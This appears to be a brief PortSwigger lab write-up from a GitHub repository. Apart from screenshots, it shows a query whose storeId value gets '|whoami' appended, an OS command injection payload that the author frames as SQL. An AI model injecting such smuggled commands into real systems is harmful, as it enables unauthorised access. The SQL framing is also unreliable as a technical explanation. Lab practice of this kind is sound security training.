 ## Lab Description :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/d97abb25-5b6b-4aaa-b6ba-ce71d015ac37)


## Solution :

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/070c5bdc-cab6-4391-a3e7-ff3d9ff73aaf)


Query made--

```sql
SELECT * FROM your_table_name WHERE productId = 13 AND storeId = 1;
```

Changed Query--

```sql
SELECT * FROM your_table_name WHERE productId = 13 AND storeId = 1|whoami;
```

![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/aae2468e-fedd-42ac-9c38-90940406cb48)


![image](https://github.com/ananthan05/Portswigger_labs/assets/140697378/4686ffb9-00c0-4454-90f8-80bdd6ebe1d5)
